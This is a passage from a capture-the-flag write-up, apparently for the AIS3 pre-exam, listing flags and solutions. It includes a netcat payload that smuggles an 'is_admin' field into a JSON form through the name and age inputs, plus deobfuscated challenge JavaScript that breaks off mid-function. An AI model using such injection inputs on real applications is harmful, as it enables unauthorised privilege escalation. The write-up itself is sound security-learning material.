 ```=python=
print(flags)

```

```
AIS3{0N_May_16th @Sead00g said Heeeee ReMEMBerEd tH4t heee UseD thE SAME set 0f On1iNe to01s to S01Ve Rsa AeS RCA DE5 at T-cat-cup, AnD 7he kEys aRE AlWAys TCat2019Key}

```
----

## Are you admin?

### WAF Protect
Age can't include ascii_letters [a-zA-Z] ,but special letters is fine, ex. [{}:]

### Payload
```=bash
nc pre-exam-chals.ais3.org 10203
Your name:
1","is_admin":"yes","test":{"t":"t
Your age:
1"},"2":"1
```
```
AIS3{RuBy_js0n_i5_s0_w3ird_0_o}
```

---

# Web 

## SimpleWindow 
```
AIS3{D0_y0u_kn0w_Serv1ce_W0rker?}
```
----

## Hidden

using JS beautify to get source code

```=javascript
var r = function() {
            return function() {
                var r = Array.prototype.slice.call(arguments),
                    t = r.shift();
                return r.reverse().map(function(r, e) {
                    return String.fromCharCode(r - t - 25 - e)
                }).join("")
            }(12, 144, 165, 95, 167, 140, 95, 157, 94, 164, 91, 122, 111, 102) + 4..toString(36).toLowerCase() + 21..toString(36).toLowerCase().split("").map(function(r) {
                return String.fromCharCode(r.charCodeAt() + -13)
            }).join("") + 1234274547001..toString(36).toLowerCase() + 21..toString(36).toLowerCase().split("").map(function(r) {
                return String.fromCharCode(r.charCodeAt() + -13)
            }).join("") + 579..toString(36).toLowerCase() + function() {
                var r = Array.prototype.slice.call(arguments),
                    t = r.shift();
                return r.reverse().map(function(r, e) {
                    return String.fromCharCode(r - t - 44 - e)
                }).join("")
```
